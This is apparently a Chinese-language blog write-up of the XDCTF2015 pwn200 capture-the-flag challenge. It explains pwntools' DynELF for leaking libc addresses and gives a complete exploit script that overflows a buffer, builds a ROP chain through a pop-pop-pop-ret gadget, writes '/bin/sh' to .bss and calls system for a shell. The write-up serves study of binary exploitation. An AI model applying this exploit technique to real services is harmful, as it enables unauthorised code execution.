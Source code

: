 ```yaml
---
title: CTF | XDCTF2015-pwn200(DynELF)
date: 2018-03-18 19:40:11
tags: pwn
---
```

该题用到了 `DynELF` 技术  

`DynELF` 是 `pwntools` 中专门用来应对无 `libc` 情况的漏洞利用模块，其基本代码框架如下。
```python
p = process('./xxx')
def leak(address):
  #各种预处理
  payload = "xxxxxxxx" + address + "xxxxxxxx"
  p.send(payload)
  #各种处理
  data = p.recv(4)
  return data
d = DynELF(leak, elf=ELF("./xxx"))      #初始化DynELF模块 
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
再看 `read` 函数：
定义函数：`ssize_t read(int fd, void * buf, size_t count);  `
函数说明：`read()`会把参数fd 所指的文件传送count 个字节到buf 指针所指的内存中.  若参数 `count` 为 0, 则read()不会有作用并返回0. 返回值为实际读取到的字节数, 如果返回0, 表示已到达文件尾或是无可读取的数据,此外文件读写位置会随读取到的字节移动.  

思路：   
1.调用 `main` 函数循环利用    
2.泄露出 `system` 地址   
3.写入`”/bin/sh” `   
4.调用 `system` 获取 `shell` ，在实际调用 `system` 前，需要通过三次 `pop` 操作来将栈指针指向 `systemAddress` 。保证堆栈平衡

查找gadget：
`ROPgadget --binary pwn200 --only "pop|ret"`   
使用：
`0x08048649 : pop esi ; pop edi ; pop ebp ; ret`   

```python
from pwn import *
elf = ELF('./pwn200')
io = process('./pwn200')
write_plt = elf.plt['write'] # symbols 也可以
read_plt = elf.plt['read']
main_addr = 0x80483e0 
bss_addr = elf.bss() #用来存储'/bin/sh'
pppr = 0x08048649 

def leak(addr):
    io.recvuntil('Welcome to XDCTF2015~!\n')
    payload = 'a'*112+p32(write_plt)+p32(main_addr)+p32(1)+p32(addr)+p32(4)
    io.sendline(payload)
    msg = io.recv(4)
    return msg

dyn = DynELF(leak,elf=elf)  
sys_addr = dyn.lookup('system','libc')
payload = 'a'*112+p32(read_plt)+p32(pppr)+p32(0)+p32(bss_addr)+p32(8)+p32(sys_addr)+p32(main_addr)+p32(bss_addr)
io.sendline(payload)
io.sendline('/bin/sh\0')
io.interactive()
```

